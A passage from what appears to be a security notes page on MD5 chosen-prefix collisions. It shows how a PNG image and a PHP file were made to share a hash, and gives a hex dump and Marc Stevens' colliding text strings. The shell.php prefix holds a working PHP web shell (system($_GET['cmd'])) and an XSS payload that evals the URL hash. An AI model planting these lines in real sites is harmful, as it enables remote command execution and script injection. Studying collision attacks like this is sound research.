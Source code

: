 The cpc.sh script will then find a collision by appending collision blocks to both prefixes, which is why I added a `<!--` comment tag to the shell, and I made sure to add the `IEND` and CRC to the PNG image to signify the end of the PNG. Some tools like [`pngcheck`](http://www.libpng.org/pub/png/apps/pngcheck.html) complain about data after the `IEND`, but all other things I've tried parse the PNG completely fine. Here are the original prefixes:

{% code title="256.png (156 bytes)" %}
```python
┌────────┬─────────────────────────┬─────────────────────────┬────────┬────────┐
│00000000│ 89 50 4e 47 0d 0a 1a 0a ┊ 00 00 00 0d 49 48 44 52 │×PNG__•_┊000_IHDR│
│00000010│ 00 00 01 00 00 00 01 00 ┊ 08 03 00 00 00 6b ac 58 │00•000•0┊••000k×X│
│00000020│ 54 00 00 00 03 50 4c 54 ┊ 45 ac c8 f2 27 88 57 a8 │T000•PLT┊E×××'×W×│
│00000030│ 00 00 00 54 49 44 41 54 ┊ 78 9c ed c1 01 01 00 00 │000TIDAT┊x×××••00│
│00000040│ 00 80 90 fe af ee 08 0a ┊ 00 00 00 00 00 00 00 00 │0×××××•_┊00000000│
│00000050│ 00 00 00 00 00 00 00 00 ┊ 00 00 00 00 00 00 00 00 │00000000┊00000000│
│*       │                         ┊                         │        ┊        │
│00000080│ 00 00 00 00 00 00 00 18 ┊ 01 0f 00 01 4d f6 ca 06 │0000000•┊••0•M××•│
│00000090│ 00 00 00 00 49 45 4e 44 ┊ ae 42 60 82             │0000IEND┊×B`×    │
└────────┴─────────────────────────┴─────────────────────────┴────────┴────────┘
```
{% endcode %}

{% code title="shell.php (156 bytes)" %}
```php
<script>eval(location.hash.substring(1)||"alert(document.domain)")</script>
<pre><code>
<?php
system($_GET["cmd"]);
// PoC by J0R1AN
?>
</code></pre>
<!--
```
{% endcode %}

Then after the collision, there were 9 blocks of 64 bytes added. You can see the raw collision files below:

{% file src="../../.gitbook/assets/256.coll.png" %}
256x256 PNG image with md5: 365010576ad9921c55940b36b9d3e0ca
{% endfile %}

{% file src="../../.gitbook/assets/shell.coll.php" %}
An XSS and PHP shell with md5: 365010576ad9921c55940b36b9d3e0ca
{% endfile %}

### MD5 - ASCII Collision

In March 2024, Marc Stevens [shared on Twitter](https://x.com/realhashbreaker/status/1770161965006008570) a proof of concept for two alphanumeric strings that hash to the same value. Previously, this was only ever done with random bytes as shown in the paragraphs above.&#x20;

```python
"TEXTCOLLBYfGiJUETHQ4hAcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak"
-> faad49866e9498fc1719f5289e7a0269
"TEXTCOLLBYfGiJUETHQ4hEcKSMd5zYpgqf1YRDhkmxHkhPWptrkoyz28wnI9V0aHeAuaKnak"
-> faad49866e9498fc1719f5289e7a0269
                      ^ A = E
```
